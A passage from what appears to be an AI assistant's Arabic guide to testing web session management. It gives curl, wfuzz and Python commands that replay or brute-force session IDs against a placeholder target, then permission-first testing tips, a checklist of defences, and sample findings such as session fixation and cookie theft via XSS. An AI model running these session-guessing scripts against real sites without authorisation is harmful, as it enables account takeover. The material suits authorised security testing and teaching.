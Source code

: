 7. **الجلسات المتعددة**:
   - **البيانات**: Session ID (`abc123`).
   - **الأدوات**: متصفحين، cURL، Burp Suite.
   - **الأوامر**:
     ```bash
     curl -b "session=abc123" https://target.com/profile
     ```

8. **أتمتة اختبار الجلسات**:
   - **البيانات**: ملف `session_ids.txt`.
   - **الأدوات**: Burp Suite Intruder، wfuzz، Python.
   - **الأوامر**:
     ```bash
     wfuzz -c -z file,session_ids.txt --hc 404 -b "session=FUZZ" https://target.com/profile
     ```
     ```python
     import requests
     url = "https://target.com/profile"
     session_ids = ["123456", "123457"]
     for sid in session_ids:
         response = requests.get(url, cookies={"session": sid})
         print(f"Session ID: {sid}, Status: {response.status_code}")
     ```

---

### **نصايح للاختبار**
- **الأخلاقيات**: لازم تكون عندك إذن صريح قبل ما تختبر أي موقع. الاختبار بدون إذن غير قانوني.
- **التجهيز**: استخدم حسابات تحت سيطرتك وجهز قوائم Session IDs محتملة لو الجلسات ضعيفة.
- **إعداد Burp Suite**: شغل Proxy واستخدم Intruder/Sequencer/Repeater لتحليل الجلسات.
- **التوثيق**: سجل كل الـ Session IDs، الردود، والنتايج لتقريرك.
- **فحص الحلول**: لو لقيت ثغرة، تأكد إذا الموقع بيفرض:
  - Session IDs طويلة وعشوائية (مثل UUID).
  - إعدادات كوكيز (`Secure`, `HttpOnly`, `SameSite=Strict`).
  - إبطال الجلسة بعد الخروج أو عدم النشاط.
  - قيود على الجلسات المتعددة.

---

### **مثال لنتيجة السيناريو**
- **Session ID ضعيف**: `session=123456` تم تخمينه بسهولة.
- **كوكي غير محمي**: الكوكي بدون `HttpOnly` اتسرق عبر XSS.
- **Session Fixation**: رابط مزور (`?session=attacker123`) سمح بالدخول.
- **جلسة طويلة**: الجلسة لسه صالحة بعد ساعة من عدم النشاط.

لو محتاج مساعدة في إعداد الأدوات (زي Burp Suite أو wfuzz) أو عايز سكربتات إضافية لأتمتة الاختبار، قولي!



# استغلال عيوب إدارة الجلسات (Session Management Flaws)
